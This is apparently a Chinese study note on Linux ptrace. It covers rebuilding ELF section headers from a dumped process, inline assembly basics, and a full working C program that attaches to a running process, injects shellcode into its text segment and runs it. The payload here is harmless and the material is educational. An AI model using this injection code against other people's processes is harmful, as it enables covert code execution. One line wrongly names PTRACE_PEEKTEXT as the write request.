            h -> shdr[7].sh_offset = h -> dyn[i].d_un.d_ptr - h -> phdr[p.data_index].p_vaddr + h -> phdr[p.data_index].p_offset;
            h -> shdr[7].sh_link = 0;
            h -> shdr[7].sh_info = 0;
            h -> shdr[7].sh_addralign = 0x8;
            h -> shdr[7].sh_entsize = 0x8;
            break;
        case DT_PLTRELSZ:
            h -> shdr[7].sh_size = h -> dyn[i].d_un.d_val;
            break;
        }
    }
    h -> shdr[2].sh_size = syment * (h -> plt_entries + (relasz / relaent) + 1);
    /* .data section header */
    h -> shdr[9].sh_name = 69;
    h -> shdr[9].sh_type = SHT_PROGBITS;
    h -> shdr[9].sh_flags = SHF_ALLOC | SHF_WRITE;
    h -> shdr[9].sh_addr = h -> shdr[7].sh_addr + 
                    (h -> plt_entries + 3) * sizeof(Elf64_Addr);
    h -> shdr[9].sh_offset = h -> shdr[9].sh_addr - 
                    h -> phdr[p.data_index].p_vaddr + h -> phdr[p.data_index].p_offset;
    Elf64_Addr dataEnd = (h -> phdr[p.data_index].p_vaddr + 
                    h -> phdr[p.data_index].p_memsz);
    h -> shdr[9].sh_size = dataEnd - h -> shdr[9].sh_addr - sizeof(Elf64_Addr);
    h -> shdr[9].sh_link = 0;
    h -> shdr[9].sh_info = 0;
    h -> shdr[9].sh_addralign = 0x8;
    h -> shdr[9].sh_entsize = 0;

    /* .bss section header */
    h -> shdr[10].sh_name = 75;
    h -> shdr[10].sh_type = SHT_NOBITS;
    h -> shdr[10].sh_flags = SHF_ALLOC | SHF_WRITE;
    h -> shdr[10].sh_addr = h -> phdr[p.data_index].p_vaddr + 
                    h -> phdr[p.data_index].p_memsz - sizeof(Elf64_Addr);
    h -> shdr[10].sh_offset = h -> phdr[p.data_index].p_offset + 
                    h -> phdr[p.data_index].p_filesz - sizeof(Elf64_Addr);
    h -> shdr[10].sh_size = sizeof(Elf64_Addr);
    h -> shdr[10].sh_link = 0;
    h -> shdr[10].sh_info = 0;
    h -> shdr[10].sh_addralign = 1;
    h -> shdr[10].sh_entsize = 0;

    /* Construct section header string table */
    h->shstrtab = malloc(90);
    if(h->shstrtab == NULL)
    {
        perror("mmap");
        exit(-1);
    }
    memset(h->shstrtab, 0, 1);
    memcpy(h->shstrtab + 1, strdup(".interp"), 8);
    memcpy(h->shstrtab + 9, strdup(".dynsym"), 8);
    memcpy(h->shstrtab + 17, strdup(".dynstr"), 8);
    memcpy(h->shstrtab + 25, strdup(".dynamic"), 9);
    memcpy(h->shstrtab + 34, strdup(".rela.dyn"), 10);
    memcpy(h->shstrtab + 44, strdup(".rela.plt"), 10);
    memcpy(h->shstrtab + 54, strdup(".plt.got"), 9);
    memcpy(h->shstrtab + 63, strdup(".text"), 6);
    memcpy(h->shstrtab + 69, strdup(".data"), 6); 
    memcpy(h->shstrtab + 75, strdup(".bss"), 5);
    memcpy(h->shstrtab + 80, strdup(".shstrndx"), 10);

    /* .shstrndx section header */
    h -> shdr[11].sh_name = 80;
    h -> shdr[11].sh_type = SHT_STRTAB;
    h -> shdr[11].sh_flags = 0;
    h -> shdr[11].sh_addr = 0;
    h -> shdr[11].sh_offset = (h -> phdr[p.data_index].p_offset + 
                    h -> phdr[p.data_index].p_filesz + 
                    h -> phdr[p.data_index].p_align) & 
                    (~(h -> phdr[p.data_index].p_align - 1));
    h -> shdr[11].sh_size = 90;
    h -> shdr[11].sh_link = 0;
    h -> shdr[11].sh_info = 0;
    h -> shdr[11].sh_addralign = 1;
    h -> shdr[11].sh_entsize = 0;

    /* Adjust the elf header */
    h -> ehdr -> e_shoff = h -> shdr[11].sh_offset + h->shdr[11].sh_size;
    h -> ehdr -> e_shentsize = sizeof(Elf64_Shdr);
    h -> ehdr -> e_shnum = 12;
    h -> ehdr -> e_shstrndx = 11;
}
```

==可能遇到的BUG==：这个实验中最关键的部分在于使用ptrace读取目标进程镜像多个字的方法。也就是上述代码中的`read_segment()` 函数，在这个函数中，传递给该函数的形参需要保持不变，而为了读取目标进程镜像中下一个字的内容，需要使用一个局部变量初始化为作为游标，同样，为了写入下一个字的内容，也需要另一个局部变量作为游标。读和写都是在游标上完成，并且为了保证正确写入，可以使用`memcpy()`函数进行内容的写入。

该程序以一个当前运行中的进程的pid以及一个文件的路径作为参数，然后将目标进程的内存镜像重建到参数中指定的文件。程序的运行结果如下：



检查dump出来的可执行文件的文件头结果如下图所示：



在查看这个文件的节头表，结果如下：



可以看到这里重建的部分节头表的信息。

> Segmentation fault 有两种：
>
> 1. 错误的访问权限，比如对一个只读的地址进行写操作，错误类型为"SEGV_ACCERR"
> 2. 访问的页面甚至根本没有映射到应用程序的地址空间。这通常是由于对空指针进行解引用(Dereference)造成的，错误类型为"SEGV_MAPERR"

执行dump下来的可执行文件，结果如下：


可以看到dump下来的可执行文件能够正确执行。

需要注意的是，重建节头表只是一个可选的工作，因为即使没有节头表，dump下来的可执行文件也能顺利执行。

### 代码注入

除了调试程序，`ptrace()`还有一个应用场景就是向一个正在运行的进程注入代码，并执行新的代码。

在Linux中，`ptrace()`默认允许使用PTRACE_PEEKTEXT请求对没有写权限的段(i.e. text segment)进行写操作，这是因为调试器需要在代码中插入断点。

利用这一点，黑客可以通过该请求向内存中插入代码并执行。

下面将会介绍一个例子，在这个例子中将会附加到一个进程上，并且注入一段shellcode，这个shellcode 将会创建一段匿名的内存映射来保存我们想要执行的代码 "payload.c"。

当然，在开始正式的代码编写前，这里需要介绍一些会用到的相关知识和工具。

#### C语言内联汇编*

在学习CSAPP(*Computer Systems - A Programmer's Perspective* )时对一些常见的汇编指令有了一个比较基础的了解。

这些基础的知识对于理解后面的代码已经足够了。

但是如果想要了解更多关于汇编语言的知识可以参考 *汇编语言 第三版（清华大学出版社 王爽著）*，如果想要对计算机的一些底层原理有一个更深入的理解的话，也可以参考这本书。

**Extended asm**

这是一个C语言中的工具，通过extended asm，可以从汇编语言中读写C变量并且从汇编语言代码跳转到C语句。

extended asm中使用分号来界定位于 *assembler template* 后面的操作参数，下面是一个extended asm的模板：

```c
asm asm-qualifiers( Assembler template
					: OutputOperands
                    [ : InputOperands
                    [ : Clobbers ]])
```

或者

```c
asm asm-qualifiers( Assembler template
					: OutputOperands
                    : InputOperands
                    : Clobbers 
                  	: GotoLabels)
```

在后一个模板中 *asm-qualifiers* 中需要包含 *goto* ， 而前一个模板中则没有。

关键字 `asm` 是GNU的一个插件(extension)。 在编写可以使用`-ansi` 或者其他`-std` 选项的时候，则需要使用关键字`__asm__`。

下面开始介绍这个模板中的一些字段的含义：

#1. asm-qualifiers:

- volatile：extended asm常用于接收一定的输入来产生输出，但是一般`asm` 语句有时候会产生一些副作用，在这个时候就需要使用volatile限定词来关闭某种优化，否则，GNU的优化器会丢弃掉这部分asm语句。
- inline：如果使用了inline限定词，那么asm语句的内容将会尽可能地取最小的大小。
- goto：goto限定词用于通知编译器asm语句中可能会跳转到 *GotoLabels* 中的某条语句处。

#2. Assembler template：

这个参数是一个字符串，用于描述模板中的汇编语言。

#3. OutputOperands

一个由逗号分割的C变量的列表，这些变量将会被*Assembler template* 中的指令进行修改。空列表的参数是合法的。

==在asm语句中通常包含一个或多个输出操作数，用于指明需要使用汇编指令修改的C语言变量==。

这个参数包含通过逗号分开操作数列表，每一个操作数的格式如下：

`[asmSymbolicName] constraint (cVariableName)`

1. asmSymbolicName：声明了这个操作数的符号名称，可以在*Assembler template*中的汇编指令中通过这个符号名称来引用(%[asmSymbolicName])对应的操作数。不同的操作数必须使用不同的符号名称。

   如果没有声明符号名称，那么汇编指令就用操作数列表（包括输出操作数列表和输入操作数列表）中的索引（以0开始）来引用对应的操作数，比如，操作数列表中有两个操作数，那么汇编指令就是用 %0 引用第一个操作数，%1 引用第二个操作数。

2. constraint：一个字符串常量，用于声明在修改操作数时的限制。

   ==在输出操作数中，constraint字段必须以'='（重写操作数）或者'+'（需要进行读写）字符开始==。

   ==在前缀之后，必须包含一个或多个字符，来描述修改限制。常见的限制包括 'r' (for register) 以及 'm'(for memory)==。

3. cVariableName：C语言变量名称，即使用一个C语言变量来保存汇编指令输出的操作的值。

在这部分的内容中主要要注意的是constraint 字段，因为这个字段可取的值比较多，并且相对比较复杂，具体的细节可以[constraint](https://gcc.gnu.org/onlinedocs/gcc/Constraints.html#Constraints)中的内容。

#4. InputOperands

一个由逗号分割的C变量的列表，这些变量将会被*Assembler template* 中的指令进行读取。空列表的参数是合法的。

==输入操作数能够让汇编指令访问C语言中的变量或者表达式==。

这个参数包含通过逗号分开操作数列表，每一个操作数的格式如下：

`[asmSymbolicName] constraint (cExpression)`

这个格式中各个字段的含义与前面的OutputOperands中一样，唯一有区别的地方在 *constraint* 字段。

输入操作数中的*constraint* 字段不再需要以'=' or '+' 开始。

并且==输入操作数在常见的限制符是'g'，意味着除了一些有特定用途的寄存器，任何寄存器、内存或者常数操作数都是允许的==。

#5. Clobbers

这个参数中同样也包含了一个列表，这个列表中包含了一个由逗号分割的寄存器其他数值列表，这些寄存器或数值是除了*OutputOperands*外其他的会被*Assembler template* 中的汇编代码进行修改数值。

空列表的参数合法的。

#6. GotoLabels

如果想要在汇编代码中使用goto，那么这个参数中就需要包含所有在*Assembler template* 可能会跳转的C语言labels。

更多的细节可以参考：[Extended Asm - Assembler Instructions with C Expression Operands](https://gcc.gnu.org/onlinedocs/gcc/Extended-Asm.html)

asm语句能够允许在编程过程中，在C语言代码中直接包含汇编指令，从而优化一些时间敏感的代码的性能，或者访问一些在C程序中不可读取的汇编指令。

==需要注意的是，extended asm语句必须放在一个函数内，只有basic asm语句能够放在函数之外，并且声明为 *naked* 的函数中使用的汇编指令也必须是basic asm。==

下面看一个例子，使用extended asm来实现一个hello world程序：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static inline volatile long 
print_string(int fd, char *buf, unsigned long len)
{
    long ret;
    // write(1, buf, len);
    __asm__ volatile(
        "mov %1, %%edi\n"
        "mov %2, %%rsi\n"
        "mov %3, %%rdx\n"
        "mov $1, %%rax\n"
        "syscall" 
        "\n"
        "mov %%rax %0": "=r"(ret) : "g"(fd), "g"(buf), "g"(len)
    );
    return ret;
}

int main()
{
    char *string = "Hello World!\n";
    unsigned long len = 14;
    print_string(1, string, len);
    exit(EXIT_SUCCESS);
}
```

\* 这段代码中出现了之前没介绍过的关键字，但是后面会对这些关键字进行解释。

上面代码中的汇编语句的执行的指令如下：

将变量fd中的内容加载到%edi寄存器中，将变量buf中的内容加载到%rsi寄存器中，将变量len中的内容加载到%rdx中，这三条指令是完成参数准备工作，然后调用1号==（%rax中存放系统调用号，系统调用号与系统调用的对应关系，可以查看系统调用号表/user/include/asm/unistd.h）==系统调用(`write()`)，所以用C语言代码描述这个汇编语句所完成的工作的话就是：

`ret = write(fd, buf, len)`

这里需要介绍一下X86-64系统，在使用寄存器传递参数时，==每个参数从左到右使用的寄存器的顺序依次是==：

%rdi, %rsi, %rdx, %rcx, %r8, %r9

如果寄存器不够用了，那么剩下的参数都应该使用通过栈传递。

如果想要了解更多X86-64系统下的指令集，可以参考文档[x86-64 Architecture Guide](./X86-64 Architecture Guide.pdf)

注意，当`write()`系统调用的文件描述符*fd = 1*时，该函数会将*buf*指针指向的*len*个字节的内容打印到控制台：


可以看到上面代码执行结果是将一个"Hello World!"字符串打印到控制台。

#### 代码注入实例

这一部分的内容就开始进行代码注入的实战编程。

除了前面所介绍的汇编知识，这里还需要介绍一下其他会使用到的函数以及相关知识：

**内联函数**

通常，函数调用都有一定的开销，因为函数的调用过程包括建立调用、传递参数、跳转到函数代码并返回。

为了避免这样的开销，C99提供了一种解决方法：内联函数(inline function)。当然，使用宏命令使代码内联也能解决这样的问题。

内联函数在C标准中的描述是：”把函数变成内联函数意味着尽可能快地调用该函数，其具体效果由实现定义“。

因此，==把函数变成内联函数，编译器可能会用内联代码替换函数调用，并（或）执行一些其他的优化，但是内联的声明也可能不起作用==。

标准中规定内联函数的定义与调用该函数的代码必须在同一个文件中。因此，最简单的方法是使用函数说明符inline和存储类别说明符static来声明一个内联函数。

更多细节可以参考 *C primer plus*。

**Function Attribute**

前面所提到的inline关键字，只是会建议编译器将该函数作为内联函数处理，但并不会要求编译器进行那样的处理。如果想强制要求编译器将函数作为内联函数处理的话，可以使用function attribute。

在GNU C中，在声明函数调用的一些属性来帮助编译器优化该函数调用。

\_\_attribute\_\_关键字能够在声明函数的时候指明函数的一些特殊属性，这个关键字的后面使用双括号指明要声明的属性：

`__attribute__((attribute_list))`

其中的*attribute_list* 就是使用逗号分隔的属性。

常见的属性有：`noreturn`, `noinline`, `always_inline`, `pure`, `const`等，除了常用属性，在不同的系统上可能会定义有不同的函数属性，如果想要了解更多的函数属性可以参考[Function Attribute](https://gcc.gnu.org/onlinedocs/gcc/Function-Attributes.html#Function-Attributes)。

这里主要介绍两个会用到的属性：

1. always_inline
2. aligned()

比如在上面的例子中，虽然将`print_string()`函数声明为内联的函数，但是使用`objdump -d`命令查看汇编代码可以发现编译器并没有将这个函数作为内联函数处理：

所以这个时候可以使用函数属性将该函数强制声明为内联函数：

```c
static inline volatile long print_string(int, char *, long) __attribute__((always_inline));
```

进行这样的声明后可以发现，该文件的汇编结果中没有`print_string`的函数地址，因为编译器直接使用函数的代码替换了函数的调用。

这里还会使用到的一个函数属性是 `aligned(alignment)` 属性，这是一个带参数的属性。

这个属性指明该函数第一条指令的最小对齐量，以字节为单位。这里的参数必须是2的整数次幂。

更多细节可以参考[Attribute Syntax](https://gcc.gnu.org/onlinedocs/gcc/Attribute-Syntax.html#Attribute-Syntax)

**Volatile**

volatile关键字的作用是阻止编译器对一些可能会经过编译器无法确定的方法进行变化的对象进行优化。

被声明为volatile的对象可以省略编译器优化，因为这些对象的值可能会在任何时刻被当前代码范围外的代码修改。

==系统总是在内存的某个位置读取被声明为volatile的对象的当前取值，而不是在请求这个对象的时候将这个对象的值放入寄存器中，即使可能前一条指令也请求了这个对象==。

注意volatile关键字都是作用在变量上的，虽然有时候能看到被声明为volatile的函数，但实际上声明的是：返回值为volatile的函数。

在GeeksforGeeks网站上的一篇文章详细解释了使用volatile关键字的原因：

[Understanding "volatile" qualifier in C](https://www.geeksforgeeks.org/understanding-volatile-qualifier-in-c/)

上面这篇文章中还用了一个例子来表现volatile关键字的作用。

**Take function as parameter**

这里介绍一个代码实例，将一个函数作为参数传递给另一个函数：

原型：`void func(void (*f)(int));`

上面的声明语句创建了一个函数，这个函数以一个无返回值并且接收一个int类型参数的函数作为参数。

函数调用：

```c
void print(int x)
{
    printf("%d\n", x);
}
...
func(print);		// void (*f)(int) = print
```

> 这里需要注意的点是，使用`func()`函数调用时，生成了一个临时的函数指针变量，并用`print`进行赋值：
>
> `void (*f)(int)  = print; `
>
> 这是因为`print`这个==函数名称变量中保存这该函数的地址，但是如果对函数名称变量使用取址运算符的话，得到的结果依然是函数的地址==，所以上面的赋值语句等价于：
>
> `void (*f)(int) = &print;`
>
> 调用的语句也就等价于：
>
> `func(&print);`

然后在`func()`函数里面传递`print()`函数所需的参数：

```c
void func(void (*f)(int))
{
    int ctr = 5;
    (*f)(ctr); 		// print(5)
}
```

这就是使用函数作为参数的一个简单示例。

**fopen()**

函数原型：

```c
#include <stdio.h>
FILE *fopen(const char *pathname, const char *mode);
FILE *fdopen(int fd, const char *mode);
```

`fopen()`用于以 *mode* 模式打开一个以 *pathname* 或者 *fd* 指定的文件，并且使一个I/O流与这个文件进行关联。

其中 *mode* 可取的值如下：

- "r"：打开一个用于读取的文件，I/O流被定位在这个文件的起始位置。
- "r+"：打开一个用于读写的文件，I/O流被定位在这个文件的起始位置。

当然，还有更多的选项这里没有进行完整的介绍，如果想要了解更多的细节可以参考手册。

这里需要介绍一下`open()`与`fopen()`的区别：

1. `open()`属于系统调用，位于更底层，而`fopen()`则相对比较高级，如果程序需要移植到非Unix系统上，那么就需要使用`fopen()`
2. `fopen()`提供了缓冲I/O，能够更快地进行文件I/O
3. `fopen()`如果没有使用二进制模式，那么将会以行结尾进行翻译

该函数地返回值能够一个FILE *类型的变量，这个变量实际上就是文件的I/O流，在`fscanf()`或者`fgets()`等"stdio"库函数中需要使用这个返回值来引用对应的文件。

更多细节可以参考手册"fopen(3)"。

**fgets()**

函数原型：

```c
#include <stdio.h>
char *fgets(char *restrict s, int n, FILE *restrict stream);
```

`fgets()`用于从 *stream* 参数指向的文件中读取 *n - 1* 的字节到 *s* 指向的字符串中。如果在读取过程中遇到换行符或者EOF就会停止读取，并且也会将读取到的内容存放在 *s* 指向的字符串中。*s* 字符串的最后一个字符会被自动填充为 '\\0'。

> restrict 关键字：
>
> 这个关键字用于指针的声明，使用restrict声明的指针是表示这个指针是唯一能够访问该指针指向区域的方法。

如果函数成功执行，那么函数的返回值就是 *s* ；如果读取过程中遇到了EOF，那么就会设置对应的文件I/O流的end-of-file提示符，并且返回一个空指针；如果读取过程中出现错误，那么就会设置对应的错误号，并且返回一个空指针。

更多细节可以参考手册"fgets(3p)"。

**fclose()**

函数原型：

```c
#include <stdio.h>
int fclose(FILE *stream);
```

`fclose()`函数会关闭 *stream* 指向的文件I/O流，并且关闭对应的文件。

函数如果成功执行，则会返回0；否则，会返回一个EOF，并且设置对应的错误号。

更多细节可以参考手册"fclose(3)"。

**strstr()**

函数原型：

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
```

`strstr()`函数会在字符串 *haystack* 中找到子字符串 *needle* 首次出现的位置，如果找到了子字符串，那么会返回指向该子字符串的指针，如果没找到，那么就会返回NULL。

如果*needle* 是空字符串，那么返回值就总是 *haystack* 本身。

更多细节可以参考手册"strstr(3)"。

**strtoul()**

函数原型：

```c
#include <stdlib.h>
unsigned long strtoul(const char *restrict str,
	char **restrict endptr, int base);
unsigned long long strtoull(const char *restrict str,
	char **restrict endptr, int base);
```

`strtoul()`和`strtoull()`函数会分别将 *str* 指针指向的字符串按照 *base* 提供的基数转换为对应的 unsigned long 类型和 unsigned long long类型的数据。

如果 *endptr* 不为空，那么参数 *endptr* 指针指向 *str* 中无法被识别为数字的子字符串

关于`strtoul()`函数对输入字符串的各种情况下的处理比较复杂，所以这里没有做过多的介绍。

更多细节可以参考手册"strtoul(3p)"。

**alloca()**

函数原型：

```c
#include <alloca.h>
void *alloca(size_t size);
```

`alloca()`函数会在当前函数的栈帧内分配 *size* 个字节，并且返回指向这块栈空间的指针。

更多细节可以参考手册"alloca(3)"。

##### Inject_greeting

下面的代码用于实现代码注入，不过这里只是注入一个简单的代码，让目标进程在标准输出流输出一些字符串以标示代码的成功注入，代码如下：

```c
/* inject_greeting.c */
/* gcc inject_greeting.c -o inject_greeting */
/* Usage: inject_greeting <pid> */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <elf.h>
#include <fcntl.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <sys/types.h>
#include <sys/errno.h>

typedef struct handle
{
    pid_t pid;                      // PID of target process
    struct user_regs_struct pt_reg; // Register of target process
    
    uint8_t *shellcode;             // Address of shellcode

    uint64_t inject_addr;           // Address where we inject the shellcode
}handle_t;

static inline volatile long
print_string(int, char *, unsigned long)__attribute__((aligned(8), __always_inline__));
uint64_t injected_code(void *) __attribute__((aligned(8)));
int pid_read(pid_t, const void *, const void *, size_t);
int pid_write(pid_t, void *, const void *, size_t);
uint8_t *create_shellcode(void (*fn)(), size_t len);
uint64_t get_inject_addr(pid_t);

uint64_t f1 = (uint64_t)injected_code;
uint64_t f2 = (uint64_t)pid_read;

// Assembly code for write(1, buf, len)
static inline volatile long
print_string(int fd, char *buf, unsigned long len)
{
    long ret;
    __asm__ volatile(
        "mov %1, %%edi\n"
        "mov %2, %%rsi\n"
        "mov %3, %%rdx\n"
        "mov $1, %%rax\n"
        "syscall\n"
        "mov %0, %%rax\n"
        : "=r"(ret)
        : "g"(fd), "g"(buf), "g"(len)
    );
    return ret;
}

uint64_t injected_code(void *vaddr)
{
    char str[] = {'[', 'I', '\'', 'm', ' ', 'i', 'n', ' ', 'h', 'e', 'r', 'e', ']','\n', '\0'};
    print_string(1, str, 14);
    __asm__ volatile("int3");
}

// Duplicate the function (shellcode) to a heap address space
uint8_t *create_shellcode(void (*fn)(), size_t len)
{
    int i;
    uint8_t *shellcode = (uint8_t *)malloc(len);
    uint8_t *ptr = (uint8_t *)fn;
    for(i = 0; i < len; i++) *(shellcode + i) = *(ptr + i);
    return shellcode;
}

// Read len bytes from the src to dst in process specifed by pid
int pid_read(pid_t pid, const void *dst, const void *src, size_t len)
{
    int times = len / sizeof(long);
    void *s = (void *)src;
    void *d = dst;
    int i;
    for(i = 0; i < times; i++)
    {
        long word;
        if((word = ptrace(PTRACE_PEEKTEXT, pid, s, NULL)) == -1 && errno)
        {
            fprintf(stderr, "pid_read failed, pid: %d: %s\n", pid, strerror(errno));
            perror("PTRACE_PEEKTEXT");
            return 1;
        }
        memcpy(d, &word, sizeof(long));
        s += sizeof(long);
        d += sizeof(long);
    }
    return 0;
}

// Write len bytes from the src to dst in processs specified by pid
int pid_write(pid_t pid, void *dst, const void *src, size_t len)
{
    int times = len / sizeof(long);
    void *s = (void *)src;
    void *d = dst;
    int i;
    for(i = 0; i < times; i++)
    {
        if(ptrace(PTRACE_POKETEXT, pid, d, *(void **)s) == 1)
        {
            fprintf(stderr, "pid_write failed, pid: %d: %s\n", pid, strerror(errno));
            perror("PTRACE_POKETEXT");
            return 1;
        }
        s += sizeof(void *);
        d += sizeof(void *);
    }
    return 0;
}

/* Obtain the inject address by referring program header, 
*  hence the host program should be compiled with -no-pie. */ 
uint64_t get_inject_addr(pid_t pid)
{
    uint64_t inject_addr = 0;
    char maps[512], buffer[64];
    FILE *fd;
    snprintf(maps, 512, "/proc/%d/maps", pid);
    if((fd = fopen(maps, "r"))  == NULL)
    {
        perror("fopen");
        return 1;
    }
    if(fgets(buffer, 64, fd) < 0)
    {
        perror("fgets");
        exit(-1);
    }
    fclose(fd);
    char* base_str = strtok(buffer, "-");
    uint64_t base_addr = strtoul(base_str, NULL, 16);
    
    uint8_t *mem = malloc(sizeof(Elf64_Ehdr));
    if(mem == NULL)
    {
        perror("mmap");
        exit(-1);
    }
    if(pid_read(pid, mem, (void *)base_addr, sizeof(Elf64_Ehdr)) < 0)
    {
        perror("ptrace");
        exit(-1);
    }
    Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
    size_t phdr_size = ehdr->e_phentsize * ehdr->e_phnum;
    free(mem);
    
    mem = malloc(sizeof(Elf64_Ehdr) + phdr_size);
    if(mem == NULL)
    {
        perror("mmap");
        exit(-1);
    }
    if(pid_read(pid, mem, (void *)base_addr, sizeof(Elf64_Ehdr) + phdr_size) < 0)
    {
        perror("ptrace");
        exit(-1);
    }
    ehdr = (Elf64_Ehdr *)mem;
    Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr->e_phoff];
    int i;
    for(i = 0; i < ehdr->e_phnum; i++)
    {
        if((phdr[i].p_type == PT_LOAD)&&(phdr[i].p_flags == PF_R + PF_X))
        {
            inject_addr = phdr[i].p_vaddr + phdr[i].p_memsz;
            break;
        }
            
    }
    free(mem);
    return inject_addr;
}

int main(int argc, char *argv[])
{
    // Processing commandline arguments
    if(argc != 2)
    {
        printf("Usage: %s <PID>\n", argv[0]);
        exit(EXIT_SUCCESS);
    }
    handle_t h;
    h.pid = atoi(argv[1]);

    int status;
    
    // Attach to target process
    if(ptrace(PTRACE_ATTACH, h.pid, NULL, NULL) < 0)
    {
        fprintf(stderr, "Failed to attach to the target process %d: %s\n", h.pid, strerror(errno));
        exit(EXIT_FAILURE);
    }
    wait(&status);
    printf("Attached to the target process.\n");
    if((h.inject_addr = get_inject_addr(h.pid)) == 0)
    {
        printf("Failed to get the injection address.\n");
        exit(EXIT_FAILURE);
    }
    printf("Got the inject address: %lx\n", h.inject_addr);
    size_t shell_size = f2 - f1;
    shell_size += 8;
    
    // Generate the shell code in heap address space
    h.shellcode = create_shellcode((void *)(injected_code), shell_size);
    uint8_t *orig_code = malloc(shell_size);
    
    // Inject the shellcode to the host at rip
    if(ptrace(PTRACE_GETREGS, h.pid, NULL, &h.pt_reg) < 0)
    {
        fprintf(stderr, "Failed to get the registers of target process %d: %s\n", h.pid, strerror(errno));
        exit(EXIT_FAILURE);
    }
    
    // Save the current context of host process
    uint64_t old_rip = h.pt_reg.rip;
    uint64_t old_rsp = h.pt_reg.rsp;
    uint64_t old_rbp = h.pt_reg.rbp;

    if(pid_read(h.pid, (void *)orig_code, (void *)h.inject_addr, shell_size) == 1)
    {
        printf("Failed to read at rip\n");
        exit(EXIT_FAILURE);
    }
    
    if(pid_write(h.pid, (void *)h.inject_addr, (void *)h.shellcode, shell_size) == 1)
    {
        printf("Failed to write shellcode\n");
        exit(EXIT_FAILURE);
    }

    h.pt_reg.rip = h.inject_addr;
    if(ptrace(PTRACE_SETREGS, h.pid, NULL, &h.pt_reg) < 0)
    {
        fprintf(stderr, "Failed to set the registers of target process %d: %s\n", h.pid, strerror(errno));
        exit(EXIT_FAILURE);
    }

    // Start the target process
    if(ptrace(PTRACE_CONT, h.pid, NULL, NULL) < 0)
    {
        fprintf(stderr, "Failed to restart the target process %d: %s\n", h.pid, strerror(errno));
        exit(EXIT_FAILURE);
    }

    wait(&status);
    if(WSTOPSIG(status) != SIGTRAP)
    {
        printf("Something went wrong.\n");
        exit(EXIT_FAILURE);
    }else
    {
        printf("Shellcode has been inserted.\n");
    }
    
    // Recovery the text segment of target process
    if(pid_write(h.pid, (void *)(h.inject_addr), (void *)orig_code, shell_size) == 1){
        printf("Failed to recovery the host\n");
        exit(EXIT_FAILURE);
    }
    
    // Recovery the context of target process
    if(ptrace(PTRACE_GETREGS, h.pid, NULL, &h.pt_reg) < 0)
    {
        perror("PTRACE_GETREGS");
        exit(EXIT_FAILURE);
    }
    h.pt_reg.rip = old_rip;
    h.pt_reg.rsp = old_rsp;
    h.pt_reg.rbp = old_rbp;

    if(ptrace(PTRACE_SETREGS, h.pid, NULL, &h.pt_reg) < 0)
    {
        perror("PTRACE_SETREGS");
        exit(EXIT_FAILURE);
    }

    // Detaching to make the target process run
    if(ptrace(PTRACE_DETACH, h.pid, NULL, NULL) < 0)
    {
        perror("PTRACE_CONT");
        exit(EXIT_FAILURE);
    }
    wait(NULL);

    return 0;
}
```

**\*EXCEPTION: **常见的报错

> #1. "Segmentation fault"
>
> 这个错误是最常见的，出现这个错误的根本原因就是访问了不该访问的地址。
>
> #2. "Illeagal instruction"
>
> 这个错误的常见的*原因可以归结为代码段出现问题以及进程执行的上下文出现问题*。
>
> 注入代码后，目标进程可能会出现这个错误。
>
> 最开始出现这个错误的时候是因为当时我尝试将shellcode注入到text段开始的地址或者其他地址比如程序入口点。
>
> 后面依然还是会出现这个错误的原因是没有恢复目标进程被注入代码时的上下文，这里的上下文主要指目标进程的 %rip, %rsp, %rbp 寄存器。

下面的代码是被注入代码的进程的源代码，这样的进程也被称为宿主进程：

```c
/* host.c */
/* gcc host.c -o host */

#include <stdio.h>
#include <unistd.h>

int main()
{
    printf("Hello World!\n");
    printf("Sleep for 20 seconds ...\n");
    sleep(20);
    printf("Sleep over.\n");
    return 0;
}
```

在没有进行代码注入时，宿主程序的运行结果如下：



现在运行代码注入的程序：



可以看到这里成功让宿主程序在程序执行的过程中打印一串被不该打印的字符串"[I'm in here]"。

在这个例子中代码注入的原理如下：



在目标进程的内存镜像中，代码段有一部分的填充区域，填充区域的大小为( (- text.memsz) MOD PAGE_SIZE)在这块区域中写入shellcode，并不会影响到目标进程的执行。在这个例子中，shellcode所执行的代码只是简单地在终端打印一句"I'm in here."。

==需要注意的是==，在上面的例子中，在注入shellcode之前将那块区域的内容先保存了下来，这样其实是没必要的，因为我们是在text段的填充区域进行代码注入的，可以发现这块区域的内容全为0。而真正需要这样做的场景是，在目标进程text段的任意位置进行代码注入时，可以先保存注入位置的代码，然后让目标进程执行完shellcode后恢复原来的代码，继续执行原来的代码。

##### Code_inject

在下面的例子中，我们要求shellcode完成一些更复杂的任务：使用malloc()在指定区域分配一个具有执行权限的内存空间，然后将另一个文件中的代码加载到这个空间，然后将目标进程的执行流跳转到这个空间上去执行，这就是所谓目标进程。

这里的代码实现出了一点问题，因为在附加到目标进程时，目标进程正在执行sleep()系统调用，此时目标进程的PC位于共享库中。

当我们注入shellcode时，将PC跳转到text段填充区域进行执行，并且shellcode中最后一条指令是一条"int3"指令，于是目标进程在执行完shellcode后会被中断，并且将控制返回到code_inject程序中，此时，目标进程已经成功执行了shellcode，开辟了一块匿名内存空间。

然后code_inject再将payload加载到这块匿名内存空间上准备执行。

加载完成后，将目标进程的PC设置为payload的程序入口点，并让目标进程执行，然而，此时的目标进程继续执行会出现segmentation fault。

如下面的示意图所示：



其中带数字的线表示程序的控制流。其中以PC为起始点的控制转移路线是指追踪host程序的code_inect程序修改host的PC所进行的控制转移，而第2次控制转移是host程序被shellcode中的"int3"指令中断后将控制返回到code_inject程序。

在最后一步的控制流转移的时候，如果将host的控制转移到匿名内存空间，将会出现segmentation fault。事实上，转移到除原来的PC位置以外的任何位置都会造成一个segmentation fault；而如果将控制转移到host原来的位置，并且恢复host的%rsp和%rbp寄存器后，程序能够回到原来的位置继续执行。

**也就是说，在修改宿主程序的PC以操控其控制流时，第一次修改没有问题，但是第二次修改只能回到其原来的位置进行执行，否则将会出现段错误**。

**这个问题可能与Intel的CET技术相关，目前的计划是先把这本书的内容过一遍，然后再着手解决这个问题。**

这个问题暂时还没有得到一个有效的解决方法。*这个问题暂时先留着，等以后有机会再解决*。

### Ptrace反调试技巧

ptrace系统调用有时候也可用来进行反调试，通常情况，黑客不想让自己的程序被轻易调试时，会采用特定的反调试技术。

